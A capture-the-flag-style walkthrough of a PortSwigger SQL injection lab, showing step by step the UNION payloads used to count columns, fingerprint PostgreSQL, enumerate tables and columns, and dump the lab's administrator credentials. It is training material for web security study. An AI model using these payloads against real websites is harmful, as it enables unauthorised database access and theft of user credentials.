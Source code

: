 # PortSwigger SQLi Lab #5 Walk-Through

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

## Lab: SQL injection UNION attack, retrieving data from other tables

In this lab, Burp Suite will be used to find the administrator login credentials to the vulnerable website. 

After loading the lab, enable the Burp Suite proxy. Then turn on the intercept in Burp Suite and load the "Gifts" section of the vulnerable website. Burp Suite will then intercept that packet so it can be sent to the Repeater.

Now, the innards of the database can be examined through the use of some payloads.



<br>
Each payload will be entered right after the "gifts" part of the URL, as the categories field is what is vulnerable in this lab.

<br>

> Don't forget to 'ctrl u' or 'command u' in order to URL encode each paylod.



<br>

<br> 

### **1. Determine the number of columns with the following iterative payload process.**



```SQL
' order by 1--
```
This resulted in a 200 response code, meaning there is at least 1 column (*obviously, heh*).

<br>

```SQL
' order by 2--
```
200 status code

<br>

```SQL
' order by 3--
```
500 Internal Server Error

Because this was solved iteratively, the amount of columns is: 3 - 1 = 2.

<br>

> **Number of Data Columns = 2**

<br>

<br>

### **2. Determine the data types of the columns.**

<br>
Since both columns of data on the website seem to be just text, the initial guess is that both columns are strings.

```SQL
' UNION select 'a', 'a'--
```
200 Status Code

Due to the 200 status code, both of the columns are strings. If there were an error, try different data types (1, 1.1, etc.) using 'NULL' as a place holder for the other column.

<br>

> **Both columns are strings.**

<br>

<br>

### **3. Find the the type and version of the database.**

Use the following link as a cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>

Microsoft Database Version Payload:
```SQL
' UNION SELECT @@version, NULL--
```
500 error, it is not a microsoft database.

<br> 

PostgreSQL Database Version Payload:
```SQL
' UNION SELECT version(), NULL--
```
200 status code; it is a postgreSQL database.

After looking into the 200 response, the version of the postgreSQL can be found.

```HTML
<th>
PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on
x86_64-pc-linux-gnu, compiled by gcc 
(Ubuntu 9.4.0-1ubuntu1~20041) 9.4.0, 64-bit
</th>
```
<br>

> **Database Type = PostgreSQL**

<br>

<br>

### **4. Now that the database type is known, find the table names within the database.**

Use the following from the cheat sheet to get info from postgreSQL databases.
```SQL
SELECT * FROM information_schema.tables
```
Instead of *, find the correct name by looking at postgreSQL's documentation. This can be found by googling "information_schema.tables postgreSQL".

In the following link the table names for postgreSQL are identified as 'table_name'.
https://www.postgresql.org/docs/current/infoschema-columns.html

<br>

Therefore, the two column payload is:
```SQL
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
200 status code

In the 200 response, 'users' can be identified as one of the table names. This can be searched in the bottom search bar in Burp Suite repeater to keep from having to look through the whole response.

```HTML
<th>
users
</th>    
```
<br>

> **Table name = users**

<br>

<br>

### **5. Find the column names of the table name 'users'.**

Using the portswigger cheat sheet, the payload will look something like this:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Instead of *, the postgreSQL website shows that the name of columns is column_name. 
```SQL
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'--
```
200 status code

Two of the columns in the response are named 'password' and 'username'. 

<br>

> **Column Names = Username, Password**

<br>

<br>

### **6. Now that the table and columns are known, call them using a simple 'UNION select' injection.**

```SQL
' UNION select username, password FROM users--
```
200 status code

The final injection displays the administrator username and password in the response.

```HTML
<th>
administrator
</th>
    <td>
    787wo1nrar3t43x9pcko
    </td>
```

<br>

> **Username = administrator** 

> **Password = 787wo1nrar3t43x9pcko** 

<br>

<br>

### **7. Return to the login page of the vulnerable website and login with the administrator's username and password.**


<br>

### Congratulations! The lab has been solved!


